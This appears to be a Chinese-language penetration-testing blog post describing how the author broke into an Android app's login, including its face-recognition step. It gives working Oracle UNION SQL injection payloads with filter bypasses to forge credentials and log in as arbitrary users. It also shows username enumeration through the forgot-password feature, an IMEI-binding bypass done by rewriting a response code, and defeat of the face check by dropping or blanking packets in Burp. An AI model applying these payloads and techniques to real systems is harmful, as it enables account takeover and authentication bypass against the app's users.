

# App渗透_人脸识别登录绕过

打开APP是一个登录框


抓包后发现参数被加密了


使用`Jadx`脱源码发现，并没有加壳也没有混淆，运气很好


根据经验，先搜索`Encrypt、Decrypt`等关键字，发现在Common.js中有一个`encryptData`函数


定位过去，一套加解密算法都写好了放在这


放到浏览器console里面调试，果然没错


首先测试了一下注入

```
明文：{"userName":"TEST'","passWord":"123456","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：QSXBDUSV0QpJkd5tWYR90SshkWzZFVipkWUNFcK1GZzpkeZVjWWJ2asJDZwxWRl5kUrRVMFtWZOBHWTVUMr1kWSZFV4tmRSBFbyIWcsV0YXRGbZdHcwEVTsd0T0J1RjFWNXNlMrBTUhZlbSRnTXF2SOVEVwZEbSBFczEWVxAjVLxmMUBHZzYVY0d1TYp0VhNDbXNFNsVVYQx2VWhkTX50U41WW3JVbNlmTuNFR4VVYSJVVUFDbGJlTWhVUxFTVhZHcXNVMspnVoBnbTlFcxY1QoBTWvBHMR1EbXJVc4VUZw0EbUBXOtFmSWh1TYZUbltEasdFW1ATTpxmMkBHbwE2cKpWW1okVilGatNFc5UVYWRGMZFTSW1kaa52UEhXVhplUsR1dwsWYOhGWTBXOVFmUxITWyI1VNpGcuJFSOdVYzw2VTVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：App返回异常
```


```
明文：{"userName":"TEST''","passWord":"123456","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：JdFMQJVRDlmQ2l3ahJlWXFmaox2VxAXVhBFbH5UeJd0YPVjMZNHcsJmSOh1UUFzalJlUxQ1MxsWZOxGWRFXNr1kRSxGV5NWbhpkWUNFVGdkY4NmVZBHZYFmSa52VZZUbNtEbyQFcGZlYphWbTVHbWF2Msd1UWhWbl5kVUJVcaZVY2B3VTpnWxIVYahVT0xGMjpkTWRFc50WYKhXbRllVXZVMjZVW1xmeSlGbyQGcsVUTCB3RUlXRrFWTkh1Uxx2aOpEbtllM41WTqxmbWRnWxQ2QoZ1VwRGWhpEaI5EVxUFZWB3VTJzaVFWaahkY510VldVMtZlNsRlYK5EWTREcGNWNwITWyZleWpFbyIWcsVkYDhmVaZVNw0UasJDZwx2aNZlUrRlNsVkVOxmMiFHbwE2SOpWWZVDMNpGatFVdsBzYKxmbTVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：App返回正常
```


```
明文：{"userName":"TEST'or'1'='1","passWord":"123456","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：k0VwAlUFNUaCZXerFWRspFcOd0VhZlbTBXOVFGMJpWW3VzaipGetdVdsBzYK5kVUZjRGZFUkhFV2ETVlJEctRVeVVkVPpkeaFHbr5kSOZVWzZkeWhGbyQGcstGZhhmVZl3bVFGUsdVV0p0RhtUNXdFckhVYKZlRhZTMV5kRw1mVwlTbhpkTuZFSwxGZ4BzVTpHbwUlTsJjYxxWRiNEaWplVWpnVoVzVPhkSXF2Msd1U3V0ah1kSUFVc4BDZKB3VTJzaVFWaahkY510VldVMtZ1MKV0VaxmMkBHbFVGMNZFVxYFbhpkWUNFcK1GZzpkeZVjWWJ2Vwh1T0xGMjpkTrd1dsRlYqR3VOhFbWFmdwd1UzpURXxmVsRleJdVYzw2VTlXVGJ1Twh1UVFTVhZHcXNlcwBTTphGbUpXTHF2Q1c1U6xWVltEb6lFVxsmYK5kaZVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：App返回正常
```


至此已经可以判断该登录点就是一个注入了，可是返回结果始终都是“用户名或密码错”即使用了`' or '1'='1`

根据返回结果推测，后端的登录处的逻辑代码可能是这样的

```
userInfo = 'select * from userinfo where username = <userName>';
userPass = userInfo.password;
if (userPass == <passWord>){
    return 'Login success';
}else{
    return 'Login failed';
}
```

通过Union注入构造万能密码，是可以造成任意用户登陆的，测试过程如下
先使用`order by`测试，得知字段的数量为9个，构造`payload`

```
# 由于目标服务器带有过滤，所以这里简单的bypass一下
明文：{"userName":"TEST'union/**/select/**/null,null,null,null,null,null,null,null,null from dual-- ","passWord":"123456","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：JdFMQJVRDlmQ2l3ahFkaipkTqZFdKdVY2B3VTFDb6ZFaw52UZBHbNtkTFRFcWtWZOJkehVUMrVmTwdFVzwGbh9EaYZVc1UkTKxmMUBHdyYVYShkY0xGMjpEbulVe3dlYrxmMiFHbwEWMjZ1V1AXVipkTYNFRaZkTOJVMURDbGJmSaR1UEp0RiNlSqlFMwBTUNx2VSFHbr5kSOx2Vzg3RTdlVIJWevxGZ0EzVTpHbwE1TkhkTwVDMkBTTVRVNsVVYQx2ROlXSHN2T1ITWzBHbSpGZuJFdsBzYK5kVUFjVrFWTGR1UwlTVhBTSql1d1smYqhXbXhXTtR2SOVEVwZUMWhmWuNVSwZFZHFzVTJzawUVYkhkYJpFblVDMXNlesVVYPZEVVZTMVVmRwd1UysGMRFGbY9UeZxWZPhmVXNDcwEVTsdVUUhXRkJkTrl1baZ0UhR2RNlXSXVWYkV1U6h2MWtmVIVGRKJzYXVTbZpHZzIVaGRlTIhHMjRDZGpVMoNTUp5kbWVnSyM2MktWW4VleS1kTIVGWSdFZ040aZpnWsJWaONDZIp0VNFTSERFe5cVZNJkaUhFcxM2VKpXWykzVhxkWI5UeJd0YxMmRaVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：App返回成功
```


由于`Oracle`在进行`union`查询时，所对应的字段数据类型也必须相同，所以还要进行字段数据类型的测试，最终结果如下

```
# 注意这里passWord我修改成了123，用来测试Union构造的万能密码是否可行
明文：{"userName":"TEST'union/**/select/**/1,'123','123','123','123','123','123','123',1 from dual-- ","passWord":"123","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：QSXBDUSV0QpJkd5tWYB1UdsBTTXFTbZBXOtFmSWh1TYZUbltEasdVevBTUNx2VSZTMF1kcSVFV2Ezah5EZYdVc1UUZWBXbUBzaVFGUsJTYYBnRkNXMXNlesVVZppERiRnUXFmdwd1UyZleWpFbuNFdsBzYK50aWBDMFZFUoh1Vzx2aOpkTrl1cKxWTpJlbTREeVFmRwd1UysGMVFGZIJWSaZFZzpkaXJDaYJmSOh1UEVDMkBzatR1MSpXUOxGWTBXOVFGMJpWW3VzaipGetd1ROJDZHFzVTpHbwUlTWhlUxhXVNpEbyQFcSpWTpJkbUVnTHJWYGpXWyAHMR1EbXVFWG1GZLh2aXFjWVJmSaR1UUBXMkNHarZlNsRlYK5EWTVTMVVmRwd1UysGMRFGbY9UeZxWZPhmVXNDcwEVTsdVUUhXRkNDZWdFeJFjUKJFWPRnTXJ2QOZFV650Vl5EbYJlNwBzYqxGWUVjVrV2SONTW1ETVlZEcuNleOdVZOxGWSZDcwMmashFV1Y1altkTzkVNxUVZGBnbTpnTXVmTshlU2AHMjZEcIRFe5cVZNJkaUhFcxM2VKpXWykzVhxkWI5UeJd0YxMmRaVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：提示是弱密码（说明此方法可行）
```


接下来就是一个字段一个字段的改过去，判断哪个字段对应的是密码字段，测试结果如下

```
# 注意这里passWord我修改成了Ceshi123@@@，不再是弱口令了
明文：{"userName":"TEST'union/**/select/**/1,'123','123','Ceshi123@@@','123','123','123','123',1 from dual-- ","passWord":"Ceshi123@@@","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：k0VwAlUFNUaCZXerFWUPtEbIp1cWRlYKpFVTBnStR2cKpXW1olVitGbyQGcsVUZOJ1aUFTRrVmTwh1UFFzaNplUWRFerZkUQxmMiFHbFN2VkxWW3BHMR1EbH9EdSd0YhVzVTJzawEVYW5mU050VhtkTFRFcGxmUQB3MhVVMwY1SsJDVwR2MWFGdX9EWKdVYzw2VTRDbVFGUsdlVI50VONFetl1dS1WTp5kbTREeVFmUSVFVxwmRS5kVYFVcxUVY2B3VTFDb6ZFaw52UZBXMWNEawk1bwBTUNx2VSFHeFVGMNxGVwlTbhpkVY9EWG1WZLhGbXhVNw0UasJDZwxGMhNnSqlVNKZlYphWbTBXOVFmVkBTWxkkVNpmWuNFR4VVYCZVVVJUNrFmToNTYIZUbldlSUVFc50WYKRXbTpXSHd1TOpXWvp0aipkTYNFRsVEZ310aZ9mWGNVYkdUT5l0VlFGZVNFNkhVZLBHWTVVMrJ2Ms52U2wWRW5UNyQWNwtWZKJlVUVHZYV2Swh1UVFzaiNDbuNlQKVlUSBHWTVVMFN2bKpXWzVTRNtkTzkVNxUVZGBnbTpnTXVmTshlU2AHMjZEcIRFe5cVZNJkaUhFcxM2VKpXWykzVhxkWI5UeJd0YxMmRaVnRW1kVatWVzx2aOpkTsdFMaVlYVxmbWlXTX10SshlW
结果：提示登录成功
```


在绕过后，发现程序出现了异常


仔细观察返回的数据，其中有username（用户名）、staffId（职工号）、email（邮箱）、staffName（姓名）、tel（手机号）、mobile（手机号），然而这些数据都是我刚刚自己随便构造的，这里应该需要一个真实的用户信息，供后续的登录流程使用


好在，还是有一个地方能获取真实的用户信息的
App还有一个忘记密码的功能（通常这里可以爆破用户名）


利用忘记密码的功能可以判断用户名是否存在，这里随便跑了一下字典，就出来好多用户名


自然而然地利用这些用户名使用短信验证码登录


获取验证码，然后解密数据包，惊奇的发现返回了用户基本信息


根据登录返回结果，重新测试payload，最终结果如下

```
明文：{"userName":"TEST\'union/**/select/**/<staffId>,\'Qwe123@@@\',\'<userName>\',\'Qwe123@@@\',\'<mobile>\',\'<mobile>\',\'<email>\',\'865166023309431\',<staffId> from dual -- ","passWord":"Qwe123@@@","osType":"android","osVersion":"5.1.1","appVersion":"20.06.04","loginType":"1","model":"V1938T","brand":"vivo","imei":"865166023309431","version":"new"}
密文：xxxxxxxxx
结果：提示登录成功
```


仔细看返回的登录数据，已经正常了


然后重新替换数据包登录，提示绑定IMEI


这个绕过很简单，随便输入验证码，替换返回包，把resultCode从1001改为1000就行（常规操作）


最终还要个人脸认证


先用自己的脸检测，这时候手机会向服务器发包，burp把手机发向服务器的包直接丢掉就可以绕过


点击确定后，还有一个大数据包发向服务器，这里面包含的是人脸数据



修改数据包，将其中的人脸数据替换为空，然后发送


最终的最终，成功登录APP


